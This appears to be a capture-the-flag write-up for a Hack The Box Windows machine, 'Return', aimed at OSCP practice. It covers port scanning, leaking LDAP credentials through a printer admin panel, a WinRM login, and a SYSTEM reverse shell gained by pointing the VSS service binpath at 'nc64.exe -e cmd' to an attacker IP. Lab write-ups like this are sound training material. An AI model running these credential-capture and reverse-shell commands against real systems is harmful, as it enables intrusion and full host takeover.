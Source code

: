 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Difficulty:** Easy  
- **Key Techniques:**  
  - Printer admin panel → LDAP creds  
  - WinRM → svc‑printer shell  
  - Server Operators → service hijack → SYSTEM  

---

## 🕵️ Recon

```bash
# Full TCP scan
nmap -p- --min-rate 10000 -oA nmap/return-alltcp 10.10.11.108

# Top ports + default scripts
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 \
  -sC -sV -oA nmap/return-services 10.10.11.108
```

- **IIS 10.0** on port 80 → “HTB Printer Admin Panel”  
- **LDAP** (389/636), **Kerberos** (88), **SMB** (445), **WinRM** (5985)  

---

## 🖨️ Shell as **svc-printer**

### 1. Leak LDAP credentials via admin panel

- Browse to `http://10.10.11.108/settings.php`  
- Change “Printer Hostname” to your IP:`http://10.10.14.6`  
- Listen on port 389:
  ```bash
  nc -lnvp 389
  ```
- Submit → the appliance attempts an LDAP bind to you, leaking:
  ```
  Username: return\svc-printer
  Password: 1edFg43012!!
  ```

### 2. WinRM / SMB access

```bash
# Verify WinRM
crackmapexec winrm 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'

# Shell via Evil-WinRM
evil-winrm -i 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'
```

- **User flag**:
  ```powershell
  type C:\Users\svc-printer\Desktop\user.txt
  # c0118264************************
  ```

---

## 👑 Shell as **SYSTEM**

### 1. Enumerate privileges & groups

```powershell
whoami /priv     # sees SeBackup, SeRestore, SeLoadDriver, …
whoami /groups   # member of BUILTIN\Server Operators
```

> **Server Operators** can _start/stop services_ on the host.

### 2. Hijack Windows service

1. **Upload** `nc64.exe` to `C:\ProgramData\nc64.exe`.  
2. **Reconfigure** the `VSS` service to run your payload:

   ```powershell
   sc.exe config VSS binpath=\
     "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443"
   ```
3. **Start** it (it will time out, but your shell persists):

   ```powershell
   sc.exe start VSS
   ```

4. **Catch your SYSTEM shell**:

   ```bash
   nc -lnvp 443
   # → nt authority\system
   ```

- **Root flag**:
  ```powershell
  type C:\Users\Administrator\Desktop\root.txt
  # 2e3771d0************************
  ```

---

## 🎉 Summary

1. **Printer Admin** → LDAP bind → `svc-printer:1edFg43012!!`  
2. **WinRM** → `svc-printer` shell  
3. **Server Operators** → modify `VSS` service → SYSTEM shell  
